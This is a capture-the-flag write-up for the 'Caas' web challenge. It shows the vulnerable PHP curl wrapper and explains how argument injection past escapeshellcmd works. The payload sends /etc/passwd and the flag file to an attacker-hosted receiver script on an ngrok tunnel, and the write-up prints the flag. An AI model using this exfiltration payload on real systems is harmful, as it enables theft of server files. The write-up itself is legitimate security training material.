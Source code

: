 # Caas

> *cURL As A Service or CAAS is a brand new Alien application, built so that humans can test the status of their websites. However, it seems that the Aliens have not quite got the hang of Human programming and the application is riddled with issues.*
> *This challenge will raise 43 euros for a good cause.*

The website simply `curl` a given domain name or IP address and return the result to the client user

![image-20210421004632439](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/Caas-1.png?raw=true)

Taking a look at the source code given, these are the 3 main files that we need to pay close attention to

`main.js` for front-end processing :

```js
var input = document.getElementById('command');
var output = document.getElementById("console-output");

document.getElementById("command").addEventListener('keydown', (e) => {
  if (e.keyCode === 13) {

    let host = input.value;

    try {
      new URL(host);
    } catch {
      return output.innerHTML = "Illegal Characters Detected";
    }

    output.innerHTML = '';

    fetch('/api/curl', {
      method: 'POST',
      body: `ip=${host}`,
      headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
      }
    })
    .then(resp => resp.json())
    .then(data => {
      output.innerHTML = data.message;
    });

    input.value = '';
  }
});
```

`index.php` :

```php
<?php 
date_default_timezone_set('UTC');

spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

$router = new Router();
$router->new('GET', '/', 'CurlController@index');
$router->new('POST', '/api/curl', 'CurlController@execute' );

$response = $router->match();

die($response);
```

`CommandModel.php` :

```php
<?php
class CommandModel
{
    public function __construct($url)
    {
        $this->command = "curl -sL " . escapeshellcmd($url);
    }

    public function exec()
    {
        exec($this->command, $output);
        return $output;
    }
}
```

Basically the application will take a user input as a `host` URL argument to pass it to a `curl` command in `CommandModel.php` in order to respond the host's content to the client. As they used `escapeshellcmd()` to ensure that user execute only *one command*, we can exploit this using **Argument Injection** technique

Firstly, I built up a shell to retrieve the exfiltrated file data from the vulnerable server

```php
<?php file_put_contents('passwords.txt', file_get_contents($_FILES['password']['tmp_name'])); ?>
```

Then I hosted it using **ngrok** secure tunnel

![image-20210420231516732](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/Caas-2.png?raw=true)

To bypass the `trycatch` used in the front-end JavaScript file, I simply used BurpSuite to intercept and modify the request

I used this payload to test the file retrieval on `/etc/passwd` and it worked

```
-F password=@/etc/passwd http://521cc97681d2.ngrok.io/shell.php
```

![image-20210420231924112](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/Caas-3.png?raw=true)

Now I tried to retrieve the flag at `../../flag` :

```
-F password=@../../flag http://521cc97681d2.ngrok.io/shell.php
```

![image-20210420232202459](https://github.com/Ch3lLIST4/CTF-Writeups-2021/blob/main/Cyber-Apocalypse-2021/images/Caas-4.png?raw=true)

Flag :

```
CHTB{f1le_r3trieval_4s_a_s3rv1ce}
```

